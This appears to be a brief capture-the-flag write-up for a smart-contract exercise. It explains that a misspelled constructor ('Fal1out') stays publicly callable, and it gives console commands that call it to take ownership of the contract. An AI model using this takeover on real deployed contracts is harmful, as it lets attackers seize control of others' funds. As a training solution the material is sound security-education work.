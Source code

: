 ## Explanation

Claim ownership of a contract by exploiting a developer typo. Function fallout() is misspelled as fal1out(), causing the constructor function to become a public function that you can call anytime.

## Solution in console

To solve challange in browser console it is necessary to write:
```bash
# We will see current contract owner
await contract.owner();
# Calling typo function
await contract.Fal1out();
# We will see that we are the owner
await contract.owner();
```